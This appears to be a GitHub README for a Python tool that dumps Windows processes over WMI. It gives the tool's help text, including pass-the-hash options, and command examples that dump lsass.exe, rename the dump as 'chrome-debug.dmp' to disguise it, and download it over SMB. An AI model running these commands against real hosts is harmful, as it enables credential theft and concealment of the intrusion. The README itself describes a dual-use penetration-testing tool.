 # WMI Process Dump

Dump processes over WMI. Process dump will be written to `C:\Windows\Temp\<ProcessName>.dmp`

```
Dump processes over WMI with either PID or process name. Only worked on Windows Server 2016 and higher (Unless manually installed WMI Provider)

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address>

options:
  -h, --help            show this help message and exit
  -pid PID              process ID to dump
  -proc PROC            process name to dump
  -rename RENAME        rename file after dump
  -download             download file over SMB

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it will use the ones
                        specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256 bits)
  -dc-ip ip address     IP Address of the domain controller. If ommited it use the domain part (FQDN) specified in the target parameter
  -target-ip ip address
                        IP Address of the target machine. If omitted it will use whatever was specified as target. This is useful when target is the NetBIOS name and you cannot resolve it

```

Usage:

Dump a process by PID
```
python wmi-proc-dump.py user:pass@hostname -pid 580
```

Dump a process by name
```
python wmi-proc-dump.py user:pass@hostname -proc lsass.exe
```

Dump a process and rename
```
python wmi-proc-dump.py user:pass@hostname -proc lsass.exe -rename chrome-debug.dmp
```

Dump a process and download dump file to current directory
```
python wmi-proc-dump.py user:pass@hostname -proc lsass.exe -download